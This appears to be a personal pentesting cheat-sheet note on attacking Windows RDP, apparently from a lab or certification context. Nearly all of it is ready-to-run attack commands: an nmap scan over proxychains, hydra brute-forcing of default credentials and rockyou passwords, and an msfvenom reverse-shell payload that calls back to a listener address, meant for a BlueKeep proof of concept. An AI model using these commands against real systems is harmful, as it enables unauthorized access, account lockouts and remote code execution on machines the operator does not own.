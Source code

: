 #service 
<% tp.file.rename("1_RDP_")%>
☑️
> Auch ms-wbt-server

## Check for machines that have it enabled
```bash
proxychains nmap -Pn -sT -p3389 $(cat /etc/hosts | grep 172 | cut -f 1 | tr '\n' ' ')
```
## Bruteforce default credentials
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/windows-betterdefaultpasslist.txt rdp://$hip -vV -t 1 -I -s 3389
```
	CAREFUL, likely to lock accounts!
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt rdp://$hip -V -t 4 -I -s 3389
```
## Connect to RDP
```bash
connect-windows $hip [$user] [$password]
```

## BlueKeep
<= Windows 7 or <= Windows Server 2008
Payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.206 LPORT=4545 -f py
```
Integrate it at `win7_32_poc.py` where it states "`# replace buf with your shellcode`"
> Currently still fails, a python dependency issue